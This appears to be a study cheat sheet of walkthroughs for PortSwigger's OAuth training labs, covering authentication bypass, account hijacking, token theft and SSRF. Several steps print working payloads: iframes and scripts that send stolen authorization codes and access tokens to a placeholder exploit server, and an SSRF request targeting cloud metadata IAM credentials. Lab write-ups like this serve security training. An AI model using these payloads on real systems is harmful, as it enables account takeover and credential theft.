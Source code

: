 # What is OAUTH?

[OAuth 2.0 authentication vulnerabilities | Web Security Academy](https://portswigger.net/web-security/oauth)

# [**Mind_Map**](https://pbs.twimg.com/media/EZ1WqmcXYAAqwSH?format=jpg&name=900x900)

# OAUTH Testing Techniques

# [**Authentication bypass via OAuth implicit flow**](https://portswigger.net/web-security/oauth/lab-oauth-authentication-bypass-via-oauth-implicit-flow)

```
1. Sudy the requests and responses that make up the OAuth flow. This starts from the authorization request "GET /auth?client_id=[...]".2. Notice that the client application receives some basic information about the user from the OAuth service. It then logs the user in by sending a POST request containing this information to its own "/authenticate" endpoint, along with the acc3. Send the "POST /authenticate" request to Burp Repeater. In Repeater, change the email address to "victim@email.net" and send the request. Observe that you do not encounter an error.4. Right-click on the POST request and select "Request in browser" > "In original session". Copy this URL and visit it in the browser. You are logged in as Carlos and the lab is solved.
```

# [**Forced OAuth profile linking**](https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking)

```
2. Notice that you have the option to attach your social media profile to your existing account.3. notice that when yoou try to attach your social media accont the target redirect you to social media website then go back to the target again4. log out from the account and try to login with your social media linked account notice that it redirects you directly to target without any credentials needed5. In the "GET /auth?client_id[...]" request, observe that the "redirect_uri" for this functionality sends the authorization code to the endpoint like "/oauth-linking" without "state" parameter6. Turn on proxy interception and select the "Attach a social profile"  copy url from th "GET /oauth-linking?code=[...]" request8. Drop the request. This is important to ensure that the code is not used and, therefore, **remains valid**.10. in your exploit server : <iframe src="<https://YOUR-TARGET.net/oauth-linking?code=STOLEN-CODE>"></iframe>11. Deliver the exploit to the victim. When their browser loads the iframe, it will complete the OAuth flow using your social media profile, attaching it to victim account on the blog website.12. Go back to the blog website and select the "Log in with social media" option again. Observe that you are instantly logged in as the victim user
```

# [**OAuth account hijacking via**](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri) [`**redirect_uri**`](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri)

```
1. login with social account then logout and try login again2. notice that you are redirected without any credentials3. notice redirect_uri vulnerable to open redirect4. notice there are /callback?code=authe-callback-code5. go to your exploit server and try:<iframe src="<https://TARGET-OAUTH-SERVER.net/auth?client_id=CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER.net&response_type=code&scope=openid%20profile%20email>"></iframe>6. steal the victim code and make request to<https://YOUR-Target/oauth-callback?code=STOLEN-CODE>
```

# [**Stealing OAuth access tokens via an open redirect**](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect)

```
1. Dicover Open Redirect Vulnerable Parameter2. Study the OAUTH Flow Confirm that the "redirect_uri" parameter is in fact vulnerable to directory traversal       example:  --> <https://YOUR-TARGET/oauth-callback/../post?postId=1>3. chain those vulns to steal victim access tokenexaple: -->  <https://TARGET-OAUTH-SERVER.net/auth?client_id=YOUR-ID&redirect_uri=https://YOUR-TARGET/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email>4. in the exploit server:<script>if (!document.location.hash) { 	window.location = '<https://TARGET-OAUTH-SERVER.net/auth?client_id=YOUR-ID&redirect_uri=https://YOUR-TARGET/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email>'} else {	window.location = '/?'+document.location.hash.substr(1) }</script>5. Notice the API call for user info and replace the access token with the token you just stoled  and retrieve OAUTH-ACESS-TOKEN
```

# [**SSRF via OpenID dynamic client registration**](https://portswigger.net/web-security/oauth/openid/lab-oauth-ssrf-via-openid-dynamic-client-registration)

```
1. try browse <https://TARGET-OAUTH-SERVER.net/.well-known/openid-configuration>2. Notice where the client registration endpoint is located example:"/reg"3. In Burp Repeater, create a suitable POST request and retrieve registration data like "client_id"----------------------------------------------POST /regHTTP/1.1Host: TARGET-OAUTH-SERVER.netContent-Type: application/json{ "redirect_uris" : [ "<https://example.com>" ]}---------------------------------------------4. Send the GET /client/CLIENT-ID/logo request to Burp Repeater5. Go back to "POST /reg" request,Add the "logo_uri" ,tst if it's vulnerable to ssrf-------------------------------------------------POST /regHTTP/1.1Host: TARGET-OAUTH-SERVER.netContent-Type: application/json{ "redirect_uris" : [ "<https://example.com>" ], "logo_uri" :"<https://BURP-COLLABORATOR-PAYLOAD>"}-------------------------------------------------6. Try Read meta data files like   "logo_uri" : "<http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/>"
```

# [**Stealing OAuth access tokens via a proxy page**](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)

```
1. Study OAUTH flow and make sure that "redirect_uri" parameter vulnerable to directory traversal2. find Vulnerable form include "iframe" + notice that it uses "postMessage()" + "window.location.href" example "/post/comment/comment-form"3. in exploit server----------------------------------------------------------------<iframe src="<https://OAUTH-SERVER.net/auth?client_id=YOUR-ID&redirect_uri=https://YOUR-TARGET.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email>"></iframe><script>  window.addEventListener('message', function(e) {  fetch("/" + encodeURIComponent(e.data.data)) },  false)</script>----------------------------------------------------------------4. retreive victim token then Send the GET-USER-INFORMATION Request example "GET /me" request to Burp Repeater. In Repeater, replace the token in the "Authorization: Bearer" header with the one you just copied and send the request
```